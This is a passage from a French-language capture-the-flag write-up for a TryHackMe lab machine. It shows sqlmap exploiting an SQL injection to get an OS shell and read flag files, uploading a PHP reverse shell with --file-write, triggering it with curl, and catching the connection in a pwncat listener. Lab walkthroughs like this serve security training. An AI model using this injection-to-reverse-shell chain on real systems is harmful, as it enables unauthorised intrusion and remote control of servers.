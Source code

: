 On demande à sqlmap d'exploiter l'injection sql et d'avoir un shell.   

```bash
os-shell> ls ../
command standard output:
---
flag.txt
html
---
os-shell> cat ../flag.txt
command standard output: '{FLAG:Webapp:48a5f4bfef44c8e9b34b926051ad35a6}'
```

Un foit que l'on a le shell on lit le fichier flag.txt dans /var/www   $
Le flag est : {FLAG:Webapp:48a5f4bfef44c8e9b34b926051ad35a6}  

**What is the flag in the /root/ directory of router1? {FLAG:Router1:XXX}**  

Nous avons pas un vrai shell.  

```bash
sudo pwncat -l 1234
```

On écoute sur le port 1234 pour avoir un shell.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sqlmap -u "http://borderlands.thm /api.php?apikey=WEBLhvOJAH8d50Z4y5G5&documentid=1" -p "documentid" --file-write=reverseShell.php --file-dest=/var/www/html/shell.php
```

On envoie notre reverse shell sur la machine cible.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl http://borderlands.thm/shell.php
```

On exécute notre reverse shell.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ pwncat_listen 1234
sudo pwncat -l 1234
[17:59:16] Welcome to pwncat 🐈!                                                                                                                                                                                               __main__.py:153
[18:00:59] received connection from 10.10.83.8:37080                                                                                                                                                                                bind.py:76
[18:01:00] 0.0.0.0:1234: upgrading from /bin/dash to /bin/bash                                                                                                                                                                  manager.py:504
[18:01:01] 10.10.83.8:37080: registered new host w/ db                                                                                                                                                                          manager.py:504
(local) pwncat$                                     

(remote) www-data@app.ctx.ctf:/tmp$ cat /etc/hosts
127.0.0.1	localhost
::1	localhost ip6-localhost ip6-loopback
fe00::0	ip6-localnet
ff00::0	ip6-mcastprefix
ff02::1	ip6-allnodes
ff02::2	ip6-allrouters
172.18.0.2	app.ctx.ctf app
172.16.1.10	app.ctx.ctf app
```
